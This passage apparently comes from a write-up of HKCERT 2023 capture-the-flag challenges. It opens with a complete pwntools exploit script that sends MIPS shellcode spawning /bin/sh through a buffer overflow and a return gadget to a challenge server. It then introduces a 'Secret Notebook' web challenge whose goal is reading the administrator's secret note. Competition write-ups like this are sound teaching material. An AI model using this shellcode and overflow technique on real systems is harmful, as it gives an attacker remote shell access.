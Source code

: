### Solution
```python
from pwn import *

context.update(arch='mips', endian='big', os='linux', bits=32)
r = remote('chal.hkcert23.pwnable.hk', 28151)
sh = asm('''
  lui $t7, 0x2f62
  ori $t7, $t7,0x696e
  lui $t6, 0x2f73
  ori $t6, $t6, 0x6800
  sw $t7, -12($sp)
  sw $t6, -8($sp)
  sw $zero, -4($sp)
  addiu $a0, $sp, -12
  slti $a1, $zero, -1
  slti $a2, $zero, -1
  li $v0, 4011
  syscall 0x040405
''')

gadget = 0x455748

payload = sh.ljust(0x4c, b'\x00')
payload += p32(gadget)
payload += b"\x27\xff\xff\xb0\x03\xe0\x00\x08\x00\x00\x00\x00"
r.sendline(payload)
r.interactive()
```

![image](/hkcert/SJfY4-lV6.png)

## Secret Notebook (gldanoob, degendemolisher, vow)
Just an average web app with password authentication and content hosting. What could go wrong?

<http://chal-a.hkcert23.pwnable.hk:28107/index>

Attachment: <https://file.hkcert23.pwnable.hk/secret-notebook_7b1907aba402ecdb7ac74b14972cf0a0.zip>

In the site, users can sign up and create public notes freely. They can even retrieve a list of notes other users have written. The only restriction though, is that the `Administrator` account has a *secret note* stored in the same database, and is intended to be non-readable by normal users other than the administrator. And, of course, our goal is to retrieve it.
